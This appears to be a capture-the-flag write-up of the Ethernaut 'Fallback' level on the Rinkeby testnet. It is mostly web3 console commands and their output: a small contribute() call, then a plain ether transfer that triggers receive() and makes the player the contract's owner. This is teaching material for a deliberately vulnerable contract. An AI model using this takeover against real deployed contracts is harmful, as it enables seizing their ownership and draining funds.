 
## Web3 console cmd
Target: https://rinkeby.etherscan.io/address/0xa74746de333958789c0e57aeb12515a050f438ff

	await contract.address
		'0xA74746dE333958789c0e57Aeb12515a050F438FF'

	await contract.owner()
		'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

	contract.abi
	(7) [{…}, {…}, {…}, {…}, {…}, {…}, {…}]
		0: {inputs: Array(0), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
		1: {inputs: Array(0), name: 'contribute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
		2: {inputs: Array(1), name: 'contributions', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		3: {inputs: Array(0), name: 'getContribution', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		5: {inputs: Array(0), name: 'withdraw', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
		6: {stateMutability: 'payable', type: 'receive', constant: undefined, payable: true}

call fonction contribute

	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001"), data: "0xd7bb99ba"})
		https://rinkeby.etherscan.io/tx/0x665a581bae30d4ec1e8bfb857ebc88b9457669cf3040a2d32d9000db042df2b1

send eth to triggert callback function receive and become owner of the contract

	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001")})
		https://rinkeby.etherscan.io/tx/0x911f0a3171d06e017d3194b4660eeb850e9d059a8f3e5cffd6fe4b8466b8e8af

	await contract.owner()
		'0x6E81372783990a13715857888B32325621DB44E2'

	await getBalance(contract.address)
		'0.0002'

	
## Fallback
## Level completed!
Difficulty 1/10

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
